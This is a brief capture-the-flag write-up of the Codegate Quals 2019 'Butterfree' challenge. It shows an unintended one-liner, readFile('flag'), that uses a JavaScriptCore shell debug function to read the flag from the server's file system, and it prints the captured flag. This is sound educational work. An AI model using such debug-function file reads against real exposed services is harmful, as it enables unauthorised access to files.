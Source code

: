 ```yaml
---
title: "Butterfree - Codegate Quals 2019"
author: "chq-matteo"
comments: true
tags: codegate ctf unintended mhackeroni
---
```


```
Butterfree

Download 2018.11.18 Webkit and Modified 

nc 110.10.147.110 17423 

Download 

Download2
```

We are given access to a JavaScriptCore shell.  
There was an hint on the official discord of the ctf that there was an unintended solution to this challenge, specifically a one-liner.

Given the hint we tried to `require` some path where the flag could be at.

Executing `require('flag')` we get a syntax error related to '{'.

We found that there is a debug feature in jsc shell that allows read from the file system

https://bugs.webkit.org/show_bug.cgi?id=125059

In the end the solution to the challenge is

```
> readFile('flag')
flag{4240a8444fe8734044fca90700b3ade2}
```


The intended solution is very similar to https://github.com/WebKit/webkit/commit/650552a6ed7cac8aed3f53dd464341728984b82f
